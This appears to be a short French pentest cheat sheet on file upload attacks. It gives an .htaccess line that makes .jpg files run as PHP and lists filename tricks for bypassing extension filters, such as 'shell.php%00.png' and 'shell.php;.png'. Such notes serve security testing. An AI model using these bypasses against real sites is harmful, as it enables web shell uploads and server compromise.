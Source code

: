 # File upload

## .htaccess

Autoriser l'execution de php dans un dossier via le fichier `.htaccess` :

```bash
AddType application/x-httpd-php .jpg
```

## Bypass l'extension

- Sensible à la casse : `shell.php` -> `shell.PHP`
- Multiple extensions : `shell.php.jpg`
- Ajoute un caractère de fin : `shell.php.`
- URL encode : `shell%2Ephp`
- Ajouter un point-virgule : `shell.php;.png`
- Null byte : `shell.php%00.png`
- Recursif : `shell.p.phphp`

Plus sur [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)